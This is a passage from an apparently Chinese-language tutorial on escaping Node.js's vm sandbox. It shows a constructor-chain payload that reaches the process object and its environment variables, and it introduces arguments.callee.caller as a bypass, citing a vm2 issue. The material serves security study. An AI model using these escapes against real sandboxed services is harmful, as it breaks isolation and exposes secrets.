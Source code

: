 ```bash
const vm = require("vm");

const sandbox = Object.create(null);

vm.createContext(sandbox);

const code = "this.constructor.constructor('return process')().env";
console.log(vm.runInContext(code,sandbox));
```

[![](assets/1706959000-98574a49327438e758c2d096b500404d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140533-eabc9f4c-bc10-1.png)

可以发现报错了，但是我们这里只是因为获取不到任何对象而不是不能利用

可以参考[Escaping the vm sandbox · Issue #32 · patriksimek/vm2 (github.com)](https://github.com/patriksimek/vm2/issues/32)

利用==arguments.callee.caller==来进行绕过

arguments.callee 是 arguments 对象的一个成员，它的值为"正被执行的 Function 对象"

```bash
function Foo(){
    console.log(arguments.callee)
}
Foo();//Foo
```

arguments.callee.caller 调用当前函数的外层函数

```bash
function Foo(){
    console.log(arguments.callee.caller)
}
Foo();//anonymous
```

arguments.callee.caller 实际上是返回函数的调用者，我们之前沙箱逃逸利用的方法其实就是通过 global 中对象，并调用其方法，其实看到和 arguments.callee.caller 还是蛮像的
